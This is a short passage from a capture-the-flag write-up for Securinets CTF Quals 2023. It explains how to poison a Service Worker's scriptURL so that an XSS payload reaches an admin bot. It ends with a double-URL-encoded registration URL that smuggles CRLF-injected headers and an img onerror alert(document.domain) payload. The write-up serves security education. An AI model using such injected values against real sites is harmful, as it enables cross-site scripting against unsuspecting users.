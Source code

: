 Ah ha!! That being said, we can really **deliver our XSS payload to the bot via poisoning the Service Worker's `scriptURL` property.**

Let's test it!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807140529.png)

Wait a minute... **Where's our CRLF characters???**

After fumbling around, it seems like `scriptURL` property will **URL decode the first layer**??

**To fix this, we can just double URL encode it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807140837.png)

**So the registration URL will be:**
```
/?user=overwriteUserid%253a%2520foobar%250d%250aContent-Length%253a%252061%250d%250a%250d%250a%257b%2522token%2522%253a%2522%253cimg%2520src%253derrorpls%2520onerror%253dalert(document.domain)%253e%2522%257d
```
